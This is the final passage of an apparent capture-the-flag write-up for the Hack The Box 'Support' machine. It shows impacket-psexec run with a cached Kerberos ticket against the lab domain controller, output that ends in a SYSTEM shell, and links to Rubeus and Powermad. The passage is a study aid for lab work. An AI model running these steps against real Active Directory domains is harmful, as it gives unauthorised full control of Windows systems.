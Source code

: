 ```
$ sudo rdate -n 10.10.11.174                       
Fri Jul 25 07:02:58 PDT 2025
                                                                              
$ KRB5CCNAME=ticket.ccache impacket-psexec -k -no-pass -debug support.htb/administrator@dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] StringBinding ncacn_np:dc.support.htb[\pipe\svcctl]
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for CIFS/DC.SUPPORT.HTB@SUPPORT.HTB
[+] Using TGS from cache
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file zuqTGumC.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service iikF on dc.support.htb.....
[*] Starting service iikF.....
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for CIFS/DC.SUPPORT.HTB@SUPPORT.HTB
[+] Using TGS from cache
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for CIFS/DC.SUPPORT.HTB@SUPPORT.HTB
[+] Using TGS from cache
[!] Press help for extra shell commands
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for CIFS/DC.SUPPORT.HTB@SUPPORT.HTB
[+] Using TGS from cache
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
#### Resources
- Rubeus.exe: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
- Powermad.ps1 https://github.com/Kevin-Robertson/Powermad
- Remove whitespaces: https://www.browserling.com/tools/remove-all-whitespace

#### Lesson Learned

